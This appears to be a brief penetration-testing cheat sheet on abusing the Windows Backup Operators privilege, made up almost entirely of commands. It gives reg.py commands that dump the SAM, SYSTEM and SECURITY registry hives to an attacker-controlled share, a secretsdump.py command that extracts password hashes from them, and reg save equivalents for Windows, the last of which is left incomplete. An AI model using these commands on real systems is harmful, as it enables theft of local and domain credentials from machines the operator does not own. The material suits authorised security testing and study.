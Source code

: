 # Backup Operators

With this privilege, we can backup the SAM, SYSTEM, and SECURITY hives.

## From Linux

```powershell
# Download Hives
reg.py $DOMAIN/$USER:'$PASSWD'@$FQDN backup -o '//$OUR_IP/share'
reg.py $DOMAIN/$USER:'$PASSWD'@$FQDN backup -o '//$FQDN/C$/Users/$OUR_USER'

# Dump Hives
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```

## From Windows

```powershell
# Abusing SeBackupPrivilege
reg save hklm\sam C:\Users\Public\sam && reg save hklm\system C:\Users\Public\system

reg save hklm\sam
```
